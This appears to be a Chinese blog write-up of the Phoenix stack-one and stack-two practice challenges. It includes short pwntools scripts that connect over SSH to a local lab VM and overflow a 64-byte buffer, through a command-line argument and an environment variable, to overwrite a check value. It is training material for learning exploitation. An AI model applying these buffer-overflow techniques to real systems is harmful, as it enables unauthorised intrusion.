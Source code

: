```yaml
---
title: "[pwn笔记1]stack-one和stack-two (Phoenix)"
urlname: "[pwn笔记1]stack-one和stack-two (Phoenix)"

date: February 15, 2023 9:28 PM
tags: [pwn, stack]
---
```

这两道非常简单，而且只有数据读入方式的区别。跟zero一样，只是对覆盖的数据有要求。

## stack-one

将程序第一个参数`strcpy`到字符串。

![https://s2.loli.net/2023/02/15/P3IYOneKUiS6vNV.png](https://s2.loli.net/2023/02/15/P3IYOneKUiS6vNV.png)

在gdb中run后面直接接参数即可带上参数。

pwntools的sh.run可以接收字节数组作为参数，里面可包含启动参数。（看了下文档，对于run方法：Backward compatibility.  Use [system()](https://docs.pwntools.com/en/stable/tubes/ssh.html?highlight=ssh#pwnlib.tubes.ssh.ssh.system)
）

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x496c5962)

sh = shell.run(b"/opt/phoenix/amd64/stack-one " + s)
print(sh.recvlines(2))

```

## stack-two

这次是写到环境变量里。

![https://s2.loli.net/2023/02/15/NhRfz7Ciw8UavO4.png](https://s2.loli.net/2023/02/15/NhRfz7Ciw8UavO4.png)

做到这里发现环境变量里写"\0"进去会出问题，我们要求写入的是32位数据，不应该用p64，用了就会自动补0，然后报错。

```python
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p32(0x0d0a090a)
print(s)
s = s.decode()
print(s)
sh = shell.run(b"/opt/phoenix/amd64/stack-two", env={"ExploitEducation": s})
print(sh.recvlines(2))

```

